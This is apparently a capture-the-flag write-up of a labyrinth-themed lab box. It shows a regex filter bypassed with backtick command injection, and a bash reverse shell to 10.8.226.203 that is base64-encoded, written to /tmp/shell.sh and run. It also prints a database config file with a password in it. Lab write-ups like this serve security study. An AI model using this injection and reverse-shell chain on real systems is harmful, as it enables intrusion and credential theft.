 Minotaur is the only worthy stuff here

flag #2
fla6{the_labyrinh_was_not_that_deep}

The guy also got a `secret-suff` page with an echo panel

ugh...regexes `/[#!@%^&*()$_=\[\]\';,{}:>?~\\\\]/`

The panel just echoes whatever goes in...it uses a search argument
Fooling around with it it doesnt echo some characters: `"` (double quote)
some are sanitized : `'` (single quote), `#` (hashtag)...and many more

```text
You really think this is gonna be possible i fixed this @Deadalus -\_- !!!?
```

Actually one special char allows us to escape that regex : `` ` `` (that..thing)
Nevermind `|` (pipe vertical bar works too)...
Now I feel like injecting a shell there

```bash
`id`
uid=1(daemon) gid=1(daemon) groups=1(daemon)
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

kudos!...time to get inside (revshells.com)

`` `bash -i >& /dev/tcp/10.8.226.203/2311 0>&1` ``

That didnt work...there must be a sort of filter
base64 encoding the payload it is

`YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjIyNi4yMDMvMjMxMSAwPiYx`

Then injecion...

we decode it on server side and write it to shell.sh

`` `echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjIyNi4yMDMvMjMxMSAwPiYx | base64 -d | tee /tmp/shell.sh` ``

```bash
bash -i >& /dev/tcp/10.8.226.203/2311 0>&1
```

Next we run that shell
`` `/bin/bash /tmp/shell.sh` ``

And we are in

`cat dbConnect.php`

```php
<?php

$servername = "localhost";
$db = "labyrinth";
$usr = "root";
$pwd = "";
//$pwd = "bQXHS5KnfGAHaa383nFjT42AUMyWb";
try {
	$conn = new PDO("mysql:host=$servername;dbname=$db", $usr, $pwd);
	$conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);


} catch (PDOException $e) {
	die();
}

?>
```
